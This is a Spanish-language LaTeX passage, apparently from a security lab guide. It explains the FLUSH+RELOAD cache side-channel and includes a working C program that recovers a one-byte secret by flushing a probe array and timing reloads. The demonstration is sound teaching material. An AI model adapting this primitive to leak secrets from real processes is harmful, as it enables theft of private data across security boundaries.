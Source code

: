 El siguiente programa usa la técnica FLUSH+RELOAD para encontrar 1 byte de un valor secreto ubicado en la variable \texttt{secret}. Dado que existen 256 valores posibles para un secreto de 1 byte, necesitamos mapear cada valor en un elemento diferente dentro del arreglo. La forma naive de hacer esto, es definir un arreglo de 256 elementos (es decir \texttt{array[256]}). Sin embargo, esto no va a funcionar. El cacheo se hace a nivel bloque, no a nivel byte. Si se accede a \texttt{array[k]} un bloque de memoria que contiene este elemento será cacheado junto con los elementos adyacentes del arreglo \texttt{array[k]}, dificultando la inferencia de cual es el valor secreto.
Para solucionar este problema, hemos creado un arreglo de \texttt{256*4096} bytes, dado que \texttt{4096} es mucho mayor en tamaño que el bloque default de la caché (64 bytes), de esta forma nos aseguramos que no existan elementos adyacentes en el mismo bloque por lo que \texttt{array[i*4096]} y \texttt{array[j*4096]} estarán en diferentes bloques.

Dado que  \texttt{array[0*4096]} puede caer en el mismo bloque de caché que las variables de memoria adyacentes, estos puede ser accidentalmente cacheado durante el proceso de cacheo de esas variabbles. Por otro lado debemos evitar usar  \texttt{array[0*4096]} en el método de FLUSH+RELOAD (para otro índice \texttt{k}, \texttt{array[k*4096]} no hay problema).
Para hacer esto consistente dentro del programa, usamos \texttt{array[k*4096 + DELTA]} para todos los valores \texttt{k} donde \texttt{DELTA} es una constante ya definida con el valor \texttt{1024}. 


\begin{lstlisting}[caption=\texttt{FlushReload.c}, label={sidechannel:list:flushreload}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[256*4096];
int temp;
unsigned char secret = 94;

/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;


  // Flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}

int main(int argc, const char **argv) 
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


